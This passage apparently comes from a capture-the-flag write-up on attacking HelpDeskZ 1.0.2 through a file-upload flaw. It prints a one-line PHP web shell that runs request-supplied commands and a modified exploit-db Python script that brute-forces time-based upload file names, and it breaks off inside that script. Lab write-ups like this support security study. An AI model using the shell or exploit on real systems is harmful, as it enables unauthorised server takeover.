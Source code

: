 ```
        }
    }
    $data = array('msg_code' => $msg_code, 'msg_extra' => $misc);
    return $data;
}

```

A php file will fail, because it’s not in the allowed file types. And yet, there is no code that will delete the file. It stays in the temporary location. That is the vulnerability. If I can find that location, I can access the code. And that location only requires that I know the time.

### Upload Webshell

I can log in or not log in. Either way, I am able to create a new ticket. I’ll attach a simple php shell:

```

<?php system($_REQUEST['cmd']); ?>

```

![1559597565589](https://0xdfimages.gitlab.io/img/1559597565589.png)

The site will say it’s no good:

![1548529774550](https://0xdfimages.gitlab.io/img/1548529774550.png)

But I know the upload is there.

### Brute Upload Location

I’ll start with the script from `searchsploit`: https://www.exploit-db.com/exploits/40300

I know from the response headers that the time is off by several minutes. I’ll make a couple modifications to the script:

1) First, the script will only find php files. I’ll change it to find whatever ext I give it.

2) I’ll open up the brute force space. By default, it starts now and scans backwards 5 minutes. Since the box is about 8 minutes skewed, I’ll start 5 minutes ago, and go back up to 20 minutes from there.

```

#!/usr/bin/env python

import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time()) - 5*60
ext = fileName.split('.')[-1]

for x in range(0, 20*60):
    plaintext = fileName + str(currentTime - x)
```